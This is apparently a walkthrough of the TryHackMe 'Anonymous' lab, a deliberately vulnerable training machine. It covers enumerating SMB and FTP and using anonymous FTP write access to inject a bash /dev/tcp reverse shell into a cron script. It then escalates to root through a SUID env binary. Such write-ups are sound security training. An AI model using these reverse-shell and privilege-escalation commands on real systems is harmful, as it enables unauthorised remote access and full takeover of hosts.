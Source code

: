 # **Anonymous**
This is a writeup for the TryHackMe room [anonymous](https://tryhackme.com/room/anonymous).

The questions ask about ports, so let's start with an nmap scan.

```zsh
nmap -sV $ip
```

![nmap_scan](assets/images/anonymous/nmap_scan.png)

This nmap scan shows us that ports 21, 22, 139 and 445 are open. Port 21 is used for FTP, port 22 is used for ssh and ports 139 and 445 are use for SMB.

Let's check for SMB shares.

```zsh
smbmap -H $ip -R
```

![smbmap](assets/images/anonymous/smbmap.png)

This shows us two files that we can download, corgo2.jpg and puppos.jpeg.

```zsh
smbget -R smb://$ip/pics
```

When prompted for a password, just press **ENTER**.

![smbget](assets/images/anonymous/smbget.png)

![corgo](assets/images/anonymous/corgo2.jpg)

![corgos](assets/images/anonymous/puppos.jpeg)

These look like they're just pictures of dogs but let's exiftool them just in case.

![exif](assets/images/anonymous/exif.png)

Nothing interesting there. SMB seems to be a dead end for now, let's check FTP.

```zsh
ftp $ip
```

When prompted for a username input **anonymous**, and when prompted for a password press **ENTER**.

![ftp_shown](assets/images/anonymous/ftp_show.png)

The scripts folder has some interesting sounding files in it, so let's get those. The command `get` can be used to download files from FTP.

![ftp_get](assets/images/anonymous/ftp_get.png)

Let's see what those files are, **clean.sh** seems the most interesting so we'll check that first.

![clean-sh](assets/images/anonymous/clean-sh-cat.png)

It seems to delete temporary files, so maybe it's a cronjob? We'll look in to that in a minute, first lets see what those other files are.

![cleanuplog](assets/images/anonymous/cleanuplog.png)

Nothing useful there. Let's check **to_do.txt**, it's nothing interesting either.

Back to that **clean.sh** file, maybe we can add to that file and see if anything happens. We can use `curlftpfs` to mount and change the file.

First we need to create a folder for the files to mount to.

```zsh
mkdir ftp
```

Then we run `curlftpfs`.

```zsh 
sudo curlftpfs anonymous@$ip ftp/
```

![ftpfs](assets/images/anonymous/ftpfs.png)

Now we need to edit the **clean.sh** file, we can do that with any text editor but for now we'll just use `nano`.

```zsh
sudo nano ftp/scripts/clean.sh
```

![nano1](assets/images/anonymous/nano1.png)

We're going to add a line to give us a reverse shell. Credit goes to the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) github repo for the reverse shell.

```zsh
bash -i >& /dev/tcp/$yourip/4242 0>&1
```

![nano2](assets/images/anonymous/nano2.png)

Now we need to set up a netcat listener, we can use the following command for this.

```zsh
nc -lnvp 4242
```

And now we wait...

![flag1](assets/images/anonymous/flag1.png)

Once we have a reverse shell we can print out the user flag. We should probably stabilise our shell, we can do that with python.

```zsh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now that that's done let's move on to priv-esc. First we'll check for **SUID** binaries.

```zsh
find / -user root -perm -4000 -print 2>/dev/null
```

![suid](assets/images/anonymous/suid.png)

The only thing out of the ordinary there is `env`, so let's check [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) to see if they have any suggestions.

```zsh
env /bin/sh -p
```

This will give us root and allow us to get the flag.

![root](assets/images/anonymous/root.png)

